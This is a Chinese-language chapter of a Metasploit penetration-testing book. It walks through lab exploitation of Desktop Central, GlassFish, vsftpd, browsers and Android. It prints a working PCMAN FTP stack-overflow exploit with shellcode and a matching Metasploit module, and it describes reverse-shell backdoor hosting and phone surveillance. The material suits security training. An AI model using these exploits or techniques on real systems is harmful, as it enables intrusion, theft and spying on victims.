# 第三章：利用和获取访问权限

在第二章，*识别和扫描目标*中，我们仔细研究了在网络中扫描多个服务并对其精确版本号进行指纹识别。我们必须找到正在运行的服务的确切版本号，以便利用软件特定版本中存在的漏洞。在本章中，我们将利用在第二章，*识别和扫描目标*中学到的策略，通过利用它们的漏洞成功获取对一些系统的访问权限。我们将学习如何做到以下几点：

+   使用 Metasploit 攻击应用程序

+   测试服务器以进行成功利用

+   攻击移动平台与 Metasploit

+   使用基于浏览器的攻击进行客户端测试

+   构建和修改现有的 Metasploit 攻击模块

那么让我们开始吧。

# 设置实践环境

在本章和接下来的章节中，我们将主要在 Metasploitable 2 和 Metasploitable 3（有意设置为易受攻击的操作系统）上进行实践。此外，对于 Metasploitable 发行版中未涵盖的练习，我们将使用我们自定义的环境：

+   请按照说明在[`community.rapid7.com/thread/2007`](https://community.rapid7.com/thread/2007)设置 Metasploitable 2

+   要设置 Metasploitable 3，请参考[`github.com/rapid7/metasploitable3`](https://github.com/rapid7/metasploitable3)

+   请参考优秀的视频教程，在[`www.youtube.com/playlist?list=PLZOToVAK85MpnjpcVtNMwmCxMZRFaY6mT`](https://www.youtube.com/playlist?list=PLZOToVAK85MpnjpcVtNMwmCxMZRFaY6mT)设置 Metasploitable 3

# 利用 Metasploit 进行应用程序攻击

考虑自己在一个 B 类 IP 网络上执行渗透测试。让我们首先为我们的测试添加一个新的`workspace`并切换到它，如下面的屏幕截图所示：


通过发出`workspace`命令，后跟`-a`开关，再跟上我们新工作区的名称，我们添加了一个新的`workspace`。通过再次发出`workspace`命令，后跟工作区的名称，即我们的情况下是`ClassBNetwork`，我们切换了我们的`workspace`到我们刚刚创建的工作区。

在整个第二章，*识别和扫描目标*中，我们大量使用了 tcp portscan 辅助模块。让我们再次使用它，看看这个网络上有什么惊喜：


没什么花哨的！我们只有两个开放端口，即端口`80`和端口`22`。让我们通过发出`hosts`命令和`services`命令来验证扫描中找到的信息，如下面的屏幕截图所示：


我们可以看到，扫描中捕获的信息现在存储在 Metasploit 的数据库中。但是，我们在扫描中没有发现太多东西。让我们在下一节中运行更准确的扫描。

# 在 Metasploit 中使用 db_nmap

Nmap 是最流行的网络扫描工具之一，在渗透测试和漏洞评估中被广泛使用。Metasploit 的美妙之处在于它通过集成和存储结果将 Nmap 的功能与数据库相结合。让我们通过提供`-sS`开关在目标上运行基本的隐秘扫描。此外，我们使用了`-p-`开关告诉 Nmap 在目标上扫描所有 65,535 个端口，并使用`--open`开关仅列出所有开放的端口（这消除了过滤和关闭的端口），如下面的屏幕截图所示：



我们可以看到提供前面的命令会对目标进行彻底扫描。让我们分析扫描生成的输出如下：



我们可以看到目标上有许多开放的端口。如果我们发现其中任何一个有漏洞，我们可以将其视为系统的入口点。然而，正如前面讨论的那样，要利用这些服务，我们需要找出软件及其确切的版本号。通过启动服务扫描，`db_nmap`可以通过启动服务扫描来提供正在运行的软件的版本。我们可以通过在先前的扫描命令中添加`-sV`开关来执行类似的服务扫描并重新运行扫描：



太棒了！我们已经对大约 80%的开放端口进行了指纹识别，并获得了它们的确切版本号。我们可以看到目标上运行着许多吸引人的服务。让我们通过发出`services`命令来验证我们从扫描中收集的所有信息是否成功迁移到 Metasploit：


是的！Metasploit 已经记录了一切。让我们针对一些运行在端口`8022`上的 web 服务器软件，比如 Apache Tomcat/Coyote JSP Engine 1.1。然而，在执行任何利用之前，我们应该始终通过手动浏览器访问端口来检查服务器上运行的应用程序，如下面的截图所示：


惊喜！我们在服务器的端口`8022`上发现了桌面中央 9。然而，桌面中央 9 已知存在多个漏洞，其登录系统也可以被暴力破解。现在我们可以将这个应用程序视为我们需要打开的潜在入口，以获得对系统的完全访问。

# 利用 Metasploit 的桌面中央 9

我们在前一节中看到，我们发现了 ManageEngine 的桌面中央 9 软件运行在服务器的端口`8022`上。让我们在 Metasploit 中找到一个匹配的模块，以检查我们是否有任何利用模块或辅助模块可以帮助我们打入应用程序，如下面的截图所示：



列出了许多模块！让我们首先使用最简单的一个，即`auxiliary/scanner/http/manageengine_desktop_central_login`。这个辅助模块允许我们对桌面中央进行凭证暴力破解。通过发出`use`命令，然后跟着`auxiliary/scanner/http/manageengine_desktop_central_login`，我们可以将其投入使用。

另外，让我们也检查一下为使该模块无缝工作我们需要设置哪些选项，如下面的截图所示：


显然，我们需要将`RHOSTS`设置为目标的 IP 地址。如果我们有一个管理员帐户，不仅可以让我们访问，还可以赋予我们执行各种操作的权限，那么打入应用程序将会更有趣。因此，让我们将 USERNAME 设置为`admin`。

暴力破解技术非常耗时。因此，我们可以通过将 THREADS 设置为`20`来增加线程数。我们还需要一个密码列表来尝试。我们可以使用 Kali Linux 中的 CEWL 应用程序快速生成一个密码列表。CEWL 可以快速爬行网站页面，构建可能是应用程序密码的潜在关键字。假设我们有一个名为`nipunjaswal.com`的网站。CEWL 将从网站中提取所有关键字，构建一个潜在的关键字列表，其中包括 Nipun、Metasploit、Exploits、nipunjaswal 等关键字。在我以前的所有渗透测试中，CEWL 的成功率都远高于传统的暴力破解攻击。因此，让我们启动 CEWL 并构建一个目标列表，如下所示：


我们可以看到 CEWL 已经生成了一个名为`pass.txt`的文件，因为我们使用了`-w`开关来提供要写入的文件的名称。让我们根据 CEWL 生成的文件的路径设置`pass_file`，如下面的截图所示，并运行该模块：


在一秒钟内，我们得到了正确的用户名和密码组合，即 admin: admin。让我们通过手动登录应用程序来验证：



是的！我们已成功登录应用程序。但是，我们必须注意，我们只是管理了应用程序级别的访问，而不是系统级别的访问。此外，这不能被称为黑客行为，因为我们进行了暴力破解攻击。

CEWL 在自定义 Web 应用程序上更有效，因为管理员在设置新系统时经常倾向于使用他们每天遇到的单词。

为了实现系统级别的访问，让我们再次深入 Metasploit 寻找模块。有趣的是，我们有一个利用模块，即`exploit/windows/http/manageengine_connectionid_write`。让我们使用该模块来完全访问系统：


让我们将`RHOST`和`RPORT`分别设置为`172.28.128.3`和`8022`，然后发出`exploit`命令。默认情况下，Metasploit 将采用反向 meterpreter 载荷，如下面的屏幕截图所示：


我们有了 meterpreter 提示，这意味着我们已成功访问了目标系统。不确定背景中发生了什么？您可以通过在模块上发出`info`命令来阅读利用和它所针对的漏洞的描述，这将填充以下详细信息和描述：


我们可以看到利用是由于应用程序未检查用户控制的输入而导致远程代码执行。让我们对受损系统进行一些基本的后期利用，因为我们将在第四章中涵盖高级后期利用，*使用 Metasploit 进行后期利用*：


发出`getuid`命令获取当前用户名。我们可以看到我们有 NT AUTHORITY\LOCAL SERVICE，这是一个高级别的特权。`getpid`命令获取我们一直坐在其中的进程的进程 ID。发出`sysinfo`命令会生成一般的系统信息，比如系统名称、操作系统类型、架构、系统语言、域、已登录用户和 meterpreter 类型。`idletime`命令将显示用户空闲的时间。您可以通过在 meterpreter 控制台上发出`?`来查找各种其他命令。

参考 meterpreter 命令的用法[`www.offensive-security.com/metasploit-unleashed/meterpreter-basics/`](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)。

# 使用 Metasploit 测试 GlassFish Web 服务器的安全性

GlassFish 是另一个开源应用服务器。GlassFish 高度依赖 Java，在行业中被广泛接受。在我的渗透测试经验中，我几次遇到了基于 GlassFish 的 Web 服务器，但相当少见，比如 10 次中有 1 次。然而，越来越多的企业正在转向 GlassFish 技术；我们必须跟上。在我们的扫描中，我们发现一个运行在端口`8080`上的 GlassFish 服务器，其 servlet 运行在端口`4848`上。让我们再次深入 Metasploit，搜索 GlassFish Web 服务器的任何模块：


搜索模块，我们将找到与 GlassFish 相关的各种模块。让我们采取与之前模块相似的方法，并开始暴力破解以检查认证漏洞。我们可以使用`auxiliary/scanner/http/glassfish_login`模块来实现这一点，如下面的屏幕截图所示：


让我们将`RHOST`、要破解的用户名、密码文件（在 Kali Linux 的`/usr/share/wordlists`目录中列出的`fasttrack.txt`），线程数（以增加攻击速度），以及`STOP_ON_SUCCESS`设置为`true`，这样一旦找到密码，暴力破解就应该停止测试更多的凭据。让我们看看当我们运行这个模块时会发生什么：


我们成功获取了凭据。我们现在可以登录应用程序，验证凭据是否有效，并可以在应用程序中进行操作：


太棒了！此时，你可能会想知道我们是否现在会在 Metasploit 中搜索一个利用并使用它来获取系统级访问权限，对吗？错！为什么？还记得服务器上运行的 GlassFish 版本吗？它是 GlassFish 4.0，在这个时候没有已知的高度关键的漏洞。那接下来呢？我们应该将我们的访问权限限制在应用程序级别吗？或者，我们可以尝试一些与众不同的东西。当我们在 Metasploit 中搜索`glassfish`时，我们发现了另一个模块，`exploit/multi/http/glassfish_deployer`；我们可以利用它吗？可以！我们将创建一个恶意的`.war`包，并部署到 GlassFish 服务器上，从而实现远程代码执行。因为我们已经有了应用程序的凭据，这应该很容易。让我们看看：



让我们设置所有必要的参数，比如`RHOST`，`PASSWORD`（我们在之前演示的模块中找到的），以及`USERNAME`（如果不是 admin），并按照以下方式运行模块：


我们应该看到一个远程 shell 弹出来了，对吗？让我们看看：


唉！由于我们无法访问`http://172.28.128.3:4848`，我们的利用被中止了，我们未能进行身份验证。原因是端口`4848`正在运行应用程序的 HTTPS 版本，而我们试图连接的是 HTTP 版本。让我们将`SSL`设置为`true`，如下图所示：


太好了！我们成功连接到了应用程序。然而，我们的利用仍然失败，因为它无法自动选择目标。让我们看看模块支持的所有目标，使用`show targets`命令如下：


由于我们知道 GlassFish 是一个基于 Java 的应用程序，让我们通过发出`set target 1`命令将目标设置为 Java。另外，由于我们改变了目标，我们需要设置一个兼容的载荷。让我们发出`show payloads`命令来列出所有可以在目标上使用的匹配载荷。然而，最好的载荷是 meterpreter 载荷，因为它们提供了各种支持和功能的灵活性：



我们可以看到，由于我们将目标设置为 Java，我们有基于 Java 的 meterpreter 载荷，这将帮助我们获得对目标的访问权限。让我们设置`java/meterpreter/reverse_tcp`载荷并运行模块：


我们可以看到我们已经获得了对目标的访问权限。然而，由于某种原因，连接中断了。连接中断通知是处理不同类型的载荷时的标准错误。连接中断可能由许多原因引起，比如被杀毒软件检测到、不稳定的连接或不稳定的应用程序。让我们尝试一个通用的基于 shell 的载荷，比如`java/shell/reverse_tcp`，并重新运行模块：


最后，我们成功进入了服务器。我们现在被放置在目标服务器的命令 shell 中，可以潜在地做任何我们需要满足后期利用需求的事情。让我们运行一些基本的系统命令，比如`dir`：


让我们尝试使用`type`命令读取一些有趣的文件，如下所示：


我们将在第四章中详细讨论权限提升和后期利用，*使用 Metasploit 进行后期利用*。

# 使用 Metasploit 利用 FTP 服务

假设我们在网络中有另一个系统。让我们在 Metasploit 中执行快速的`nmap`扫描，并找出开放端口的数量以及运行在这些端口上的服务，如下所示：



目标上有很多服务在运行。我们可以看到我们的目标端口 21 上运行着 vsftpd 2.3.4，它有一个流行的后门漏洞。让我们快速搜索并在 Metasploit 中加载利用模块：


让我们为模块设置`RHOST`和`payload`如下：


当发出`show payloads`命令时，我们可以看到并不会看到太多有效载荷。我们只有一个有效载荷，可以为我们提供对目标的 shell 访问，并且一旦我们运行`exploit`命令，vsftpd 2.3.4 中的后门就会触发，我们就可以访问系统。发出一个标准命令，比如 whoami，会显示当前用户，我们的情况下是 root。我们不需要在这个系统上提升权限。但是，更好地控制访问权限将是非常可取的。因此，让我们通过获得对目标的 meterpreter 级别访问来改善情况。为了获得 meterpreter shell，我们将首先创建一个 Linux meterpreter shell 二进制后门，并将其托管在我们的服务器上。然后，我们将下载二进制后门到受害者的系统上，提供所有必要的权限，并利用我们已经获得的 shell 访问运行后门。但是，为了使后门起作用，我们需要在我们的系统上设置一个监听器，该监听器将监听来自目标上后门执行的 meterpreter shell 的传入连接。让我们开始吧：


我们迅速生成一个后门，类型为`linux/x86/meterpreter/reverse_tcp`，使用`-p`开关并提供选项，如`LHOST`和`LPORT`，表示后门将连接到的 IP 地址和端口号。此外，我们将使用`-f`开关提供后门的格式为`.elf`（默认的 Linux 格式），并将其保存为`backdoor.elf`文件在我们的系统上。

接下来，我们需要将生成的文件移动到我们的`/var/www/html/`目录，并启动 Apache 服务器，以便任何请求文件下载的请求都会收到后门文件：


我们现在已经准备好使用我们的 shell 在受害者端下载文件：


我们已成功在目标端下载了文件。让我们启动一个处理程序，这样一旦执行后门，它就会被我们的系统正确处理。要启动处理程序，我们可以在单独的终端中生成一个新的 Metasploit 实例，并使用`exploit/multi/handler`模块，如下所示：


接下来，我们需要设置与生成后门时相同的有效载荷，如下面的屏幕截图所示：


现在让我们设置基本选项，如`LHOST`和`LPORT`，如下面的屏幕截图所示：


我们可以使用`exploit -j`命令在后台启动处理程序，如前面的屏幕截图所示。同时，在后台启动处理程序将允许多个受害者连接到处理程序。接下来，我们只需要在目标系统上为后门文件提供必要的权限并执行它，如下面的屏幕截图所示：


让我们看看运行后门文件时会发生什么：


我们可以看到，一旦我们运行了可执行文件，我们就在处理程序中得到了一个 meterpreter shell。我们现在可以与会话交互，并可以轻松进行后期利用。

# 利用浏览器进行娱乐和利润

Web 浏览器主要用于浏览网络。但是，过时的 Web 浏览器可能导致整个系统被攻破。客户端可能永远不会使用预安装的 Web 浏览器，并选择基于其偏好的浏览器。但是，默认预安装的 Web 浏览器仍然可能导致系统受到各种攻击。通过查找浏览器组件中的漏洞来利用浏览器被称为基于浏览器的利用。

有关 Firefox 漏洞的更多信息，请参阅[`www.cvedetails.com/product/3264/Mozilla-Firefox.html?vendor_id=452`](http://www.cvedetails.com/product/3264/Mozilla-Firefox.html?vendor_id=452)。

对于 Internet Explorer 的漏洞，请参考[`www.cvedetails.com/product/9900/Microsoft-Internet-Explorer.html?vendor_id=26`](http://www.cvedetails.com/product/9900/Microsoft-Internet-Explorer.html?vendor_id=26)。

# 浏览器 autopwn 攻击

Metasploit 提供了 browser autopwn，这是一个自动化攻击模块，用于测试各种浏览器的弱点并利用它们。为了了解这个模块的内部工作原理，让我们讨论一下攻击背后的技术。

# 浏览器 autopwn 攻击背后的技术

**Autopwn**指的是对目标的自动利用。autopwn 模块通过自动配置浏览器的大多数基于浏览器的漏洞利用来设置监听模式，然后等待传入连接并启动一组匹配的漏洞利用，具体取决于受害者的浏览器。因此，无论受害者使用的是哪种浏览器，如果浏览器中存在漏洞，autopwn 脚本都会自动使用匹配的利用模块对其进行攻击。

让我们详细了解这种攻击向量的工作原理

以下图所示：



在上述场景中，运行`browser_autopwn`模块的利用服务器已经准备就绪，并且具有一些基于浏览器的漏洞利用及其相应的处理程序。一旦受害者的浏览器连接到利用服务器，利用服务器会基于浏览器的类型进行检查，并针对匹配的漏洞进行测试。在上图中，我们有 Internet Explorer 作为受害者的浏览器。因此，与 Internet Explorer 匹配的漏洞利用会在受害者的浏览器上启动。成功的利用会与处理程序建立连接，攻击者将获得对目标的 shell 或 meterpreter 访问权限。

# 使用 Metasploit 的 browser_autopwn 攻击浏览器

为了进行浏览器利用攻击，我们将使用 Metasploit 中的`browser_autopwn`模块，如下图所示：


我们成功在 Metasploit 中加载了`auxiliary/server/browser_autpown`中的`browser_autopwn`模块。要启动攻击，我们需要指定`LHOST`、`URIPATH`和`SRVPORT`。`SRVPORT`是我们的利用服务器将运行的端口。建议使用端口`80`或`443`，因为在 URL 中添加端口号会引起很多注意，看起来很可疑。`URIPATH`是各种利用的目录路径，应通过将`URIPATH`指定为`/`来保存在`root`目录中。让我们设置所有必需的参数并启动模块，如下图所示：



启动`browser_autopwn`模块将设置浏览器利用为监听模式，等待传入连接，如下图所示：



任何连接到我们系统的端口`80`的目标都将得到一系列的利用，根据浏览器的不同而不同。让我们分析一下受害者如何连接到我们的恶意利用服务器：



我们可以看到，一旦受害者连接到我们的 IP 地址，`browser_autopwn`模块会以各种利用进行响应，直到获得 meterpreter 访问权限，如下图所示：


正如我们所看到的，`browser_autopwn`模块允许我们测试和积极利用受害者浏览器的多个漏洞。然而，客户端利用可能会导致服务中断。在进行客户端利用测试之前最好先获得事先许可。在接下来的部分中，我们将看到`browser_autopwn`这样的模块对许多目标都是致命的。

# 使用 Metasploit 攻击 Android

Android 平台可以通过创建一个简单的 APK 文件或将有效载荷注入实际的 APK 来进行攻击。我们将介绍第一种方法。让我们通过以下方式使用`msfvenom`生成一个 APK 文件：


生成 APK 文件后，我们所需要做的就是说服受害者（进行社会工程）安装 APK，或者物理上获取手机的访问权限。让我们看看受害者下载恶意 APK 后手机上会发生什么：


下载完成后，用户按以下方式安装文件：



大多数人从不注意应用程序请求的权限。因此，攻击者可以完全访问手机并窃取个人数据。前面的部分列出了应用程序正常运行所需的权限。一旦安装成功，攻击者就可以获得对目标手机的 meterpreter 访问权限，如下所示：


哇哦！我们轻松获得了 meterpreter 访问权限。在第四章中广泛涵盖了后渗透，*使用 Metasploit 进行后渗透*。然而，让我们看一些基本功能，如下所示：


我们可以看到运行`check_root`命令显示设备已被 root。让我们看看其他一些功能：


我们可以使用`send_sms`命令从被攻击手机向任何号码发送短信。让我们看看消息是否已传递：


哎呀！消息已成功传递。与此同时，让我们使用`sysinfo`命令查看我们已经破解的系统：


让我们按以下方式`geolocate`手机：


浏览 Google 地图链接，我们可以得到手机的精确位置，如下所示：


让我们用被攻击手机的相机拍一些照片，如下所示：


我们可以看到我们从相机中得到了图片。让我们查看图片，如下所示：


客户端利用很有趣。但是，由于我们需要受害者执行文件、访问链接或安装 APK，因此很难进行。然而，在无法直接攻击的情况下，客户端攻击是最有用的攻击之一。

# 将漏洞转换为 Metasploit

在接下来的示例中，我们将看到如何将用 Python 编写的漏洞导入到 Metasploit 中。可以从[`www.exploit-db.com/exploits/31255/`](https://www.exploit-db.com/exploits/31255/)下载公开可用的漏洞。让我们分析漏洞，如下所示：

```
import socket as s
from sys import argv
host = "127.0.0.1"
fuser = "anonymous"
fpass = "anonymous"
junk = '\x41' * 2008
espaddress = '\x72\x93\xab\x71'
nops = '\x90' * 10
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1" "\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e" "\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23" "\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d" "\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5" "\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07" "\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c" "\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13" "\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3" "\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74" "\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0" "\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63" "\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29" "\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14" "\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02" "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```

这个简单的漏洞利用使用匿名凭据登录到端口`21`上的 PCMAN FTP 2.0 软件，并使用`CWD`命令利用软件。

有关构建漏洞、将其导入 Metasploit 以及绕过现代软件保护的更多信息，请参阅*Nipun Jaswal*的*Mastering Metasploit 第一版和第二版*的*第 2-4 章*。

从前面列出的漏洞整个过程可以分解为以下一系列步骤：

1.  将用户名、密码和主机存储在`fuser`、`pass`和`host`变量中。

1.  将变量`junk`赋值为`2008 A`个字符。这里，`2008`是覆盖 EIP 的偏移量。

1.  将 JMP ESP 地址分配给`espaddress`变量。这里，`espaddress 0x71ab9372`是目标返回地址。

1.  将 10 个 NOP 存储在变量`nops`中。

1.  将用于执行计算器的有效载荷存储在变量`shellcode`中。

1.  将`junk`、`espaddress`、`nops`和`shellcode`连接起来，并存储在`sploit`变量中。

1.  使用`s.socket(s.AF_INET,s.SOCK_STREAM)`建立套接字，并使用`connect((host,21))`连接到主机的`port 21`。

1.  使用`USER`和`PASS`提供`fuser`和`fpass`以成功登录到目标。

1.  发出`CWD`命令，然后是`sploit`变量。这将导致堆栈上的返回地址被覆盖，使我们控制 EIP，并最终执行计算器应用程序。

了解更多关于栈溢出利用背后的解剖学，访问[`www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/`](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)。

让我们尝试执行利用并分析结果如下：


原始的利用从命令行获取用户名、密码和主机。但是，我们修改了机制，使用了固定的硬编码值。

一旦我们执行了利用，以下屏幕就会出现：



我们可以看到计算器应用程序弹出，说明利用正在正确工作。

# 收集必要的信息

让我们找出我们需要从前面的利用中掌握的重要值，以通过以下表格在 Metasploit 中生成等效模块：

| 1 | 序列号 | 变量 | 值 |
| --- | --- | --- | --- |
| 1 | 偏移值 | `2008` |
| 2 | 目标返回/跳转地址/使用`JMP ESP`搜索找到的可执行模块的值 | `0x71AB9372` |
| 3 | 目标端口 | `21` |
| 4 | 前导 NOP 字节的数量，以删除 shellcode 的不规则性 | `10` |
| 5 | 逻辑 | `CWD`命令，后跟 2008 字节的 junk 数据，后跟任意返回地址、NOP 和 shellcode |

我们拥有构建 Metasploit 模块所需的所有信息。在下一节中，我们将看到 Metasploit 如何辅助 FTP 进程以及在 Metasploit 中创建利用模块有多么容易。

# 生成一个 Metasploit 模块

构建 Metasploit 模块的最佳方法是复制现有的类似模块并对其进行更改。但是，`Mona.py`脚本也可以即时生成特定于 Metasploit 的模块。我们将在本书的最后部分看看如何使用`Mona.py`脚本生成快速利用。

现在让我们看看在 Metasploit 中利用的等效代码：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
Rank = NormalRanking
include Msf::Exploit::Remote::Ftp
def initialize(info = {})
super(update_info(info,
'Name' => 'PCMAN FTP Server Post-Exploitation CWD Command',
'Description' => %q{
This module exploits a buffer overflow vulnerability in PCMAN FTP
},
  'Author' =>
    [
      'Nipun Jaswal'

    ],
  'DefaultOptions' =>
    {
      'EXITFUNC' => 'process',
      'VERBOSE' => true
     },
  'Payload' =>
    {
      'Space' => 1000,
      'BadChars' => "\x00\xff\x0a\x0d\x20\x40",
    },
  'Platform' => 'win',
  'Targets' =>
  [
  [ 'Windows XP SP2 English',
    {
  'Ret' => 0x71ab9372,
  'Offset' => 2008
    }
  ],
  ],
  'DisclosureDate' => 'May 9 2016',
  'DefaultTarget' => 0))
  register_options(
  [
Opt::RPORT(21),
OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous'])
],self.class)
End

```

我们首先包括了所有必需的库和`/lib/msf/core/exploit`目录中的`ftp.rb`库。接下来，在`initialize`部分中分配所有必要的信息。从利用中收集必要的信息，我们将`Ret`分配为返回地址，偏移为`2008`。我们还将`FTPPASS`选项的值声明为`anonymous`。让我们看看下面的代码部分：

```
def exploit
  c = connect_login
  return unless c
    sploit = rand_text_alpha(target['Offset'])
    sploit << [target.ret].pack('V')
    sploit << make_nops(10)
    sploit << payload.encoded
    send_cmd( ["CWD " + sploit, false] )
    disconnect
  end
end

```

`connect_login`方法将连接到目标并尝试使用我们提供的凭据登录软件。但是等等！我们什么时候提供了凭据？通过包含`FTP`库，模块的`FTPUSER`和`FTPPASS`选项会自动启用。`FTPUSER`的默认值是`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了值为`anonymous`。

接下来，我们使用`rand_text_alpha`生成`2008`的`junk`，使用目标字段中的偏移值，并将其存储在 sploit 变量中。我们还使用`pack（'V'）`函数将目标字段中的`Ret`值以小端格式存储在`sploit`变量中。使用`make_nop`函数连接 NOP，然后连接 shellcode 到`sploit`变量，我们的输入数据已准备好供应。

接下来，我们简单地将`sploit`变量中的数据发送到`CWD`命令的目标，使用`FTP`库中的`send_cmd`函数。那么，Metasploit 有什么不同呢？让我们通过以下几点来看看：

+   我们不需要创建 junk 数据，因为`rand_text_aplha`函数已经为我们做了。

+   我们不需要以小端格式提供`Ret`地址，因为`pack（'V'）`函数帮助我们转换它。

+   我们不需要手动生成 NOP，因为`make_nops`为我们做了。

+   我们不需要提供任何硬编码的有效负载，因为我们可以在运行时决定和更改有效负载。有效负载的切换机制通过消除对 shellcode 的手动更改来节省时间。

+   我们只是利用了`FTP`库来创建和连接套接字。

+   最重要的是，我们不需要使用手动命令连接和登录，因为 Metasploit 使用单一方法为我们完成了这些操作，即`connect_login`。

# 利用 Metasploit 对目标应用程序进行利用

我们看到了使用 Metasploit 相对于现有漏洞利用的好处。让我们利用这个应用程序并分析结果：


我们知道`FTPPASS`和`FTPUSER`的值已经设置为`anonymous`。让我们按照以下方式提供`RHOST`和`payload`类型来利用目标机器：



我们可以看到我们的漏洞利用成功执行了。然而，如果你不熟悉任何编程语言，你可能会觉得这个练习很困难。参考本章各个部分突出显示的所有链接和参考资料，以获得对利用中使用的每种技术的洞察和掌握。

# 总结和练习

在这一章中，你学到了很多，然后在进入下一章之前，你将需要进行大量的研究。我们在这一章中涵盖了各种类型的应用程序，并成功地对它们进行了利用。我们看到了`db_nmap`如何将结果存储在数据库中，这有助于我们对数据进行分离。我们看到了像 Desktop Central 9 这样的易受攻击的应用程序可以被利用。我们还涵盖了一些难以利用的应用程序，获取其凭据后可以获得系统级访问权限。我们看到了如何利用 FTP 服务并通过扩展功能获得更好的控制。接下来，我们看到了易受攻击的浏览器和恶意的 Android 应用程序如何通过客户端利用导致系统被攻破。最后，我们看到了如何将漏洞利用转换为与 Metasploit 兼容的漏洞利用。

这一章是一个快节奏的章节；为了跟上节奏，你必须研究和磨练你的漏洞研究技能，各种类型的溢出漏洞，以及如何从 Metasploitable 和其他**夺旗**（CTF）风格的操作系统中利用更多的服务。

你可以为本章执行以下实践练习：

+   Metasploitable 3 上的 FTP 服务似乎没有任何关键漏洞。不过，还是尝试进入该应用程序。

+   端口 9200 上的 Elasticsearch 版本存在漏洞。尝试获取对系统的访问权限。

+   利用 Metasploitable 2 上的易受攻击的 proftpd 版本。

+   使用浏览器 autopwn 进行驱动式攻击（你应该在虚拟化环境中练习；如果在现实世界中执行这个操作，你可能会被送进监狱）。

+   尝试向合法的 APK 文件注入 meterpreter 并远程访问手机。你可以在 Android Studio 上的虚拟设备上尝试这个练习。

+   阅读“将漏洞利用转换为 Metasploit”部分的参考教程，并尝试构建/导入漏洞利用到 Metasploit。

在第四章中，*使用 Metasploit 进行后期利用*，我们将介绍后期利用。我们将研究在受损机器上执行的各种高级功能。在那之前，再见！祝学习愉快。
